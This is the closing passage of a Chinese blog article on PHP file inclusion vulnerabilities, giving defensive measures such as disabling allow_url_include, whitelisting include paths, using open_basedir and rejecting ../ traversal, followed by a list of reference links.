[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/HCTF2018 hide_and_seek1.png)

## **0x04 如何防御：**

1、无需情况下设置allow_url_include和allow_url_fopen为关闭

2、对可以包含的文件进行限制，可以使用**白名单的方式**，或者设置可以包含的目录，**如open_basedir**

3、**尽量不使用动态包含**

4、严格检查变量是否已经初始化。

5、建议假定所有输入都是可疑的，尝试对所有输入提交可能可能包含的文件地址，包括服务器本地文件及远程文件，进行严格的检查**，参数中不允许出现../之类的目录跳转符。**

6、严格检查include类的文件包含函数中的参数是否外界可控。

7、不要仅仅在客户端做数据的验证与过滤，关键的过滤步骤在服务端进行。

## **0X05 参考：**

https://www.anquanke.com/post/id/86123
https://www.jb51.net/article/141767.htm
http://www.am0s.com/penetration/131.html
https://www.thinksaas.cn/group/topic/662092/
http://www.cnblogs.com/littlehann/p/3665062.html
http://www.91ri.org/13363.html
http://www.freebuf.com/column/148886.html
https://www.leavesongs.com/PENETRATION/php-filter-magic.html
http://skysec.top/2018/04/04/amazing-phpinfo/
https://xz.aliyun.com/t/2148
https://www.jianshu.com/p/051a87f45222?utm_campaign=maleskine&utm_content=note&utm_medium=reader_share&utm_source=weixin
http://php.net/manual/zh/session.upload-progress.php
http://wonderkun.cc/index.html/?p=718

[https://www.k0rz3n.com/2018/11/20/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8B%20PHP%20%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/](https://www.k0rz3n.com/2018/11/20/一篇文章带你理解漏洞之 PHP 文件包含漏洞/)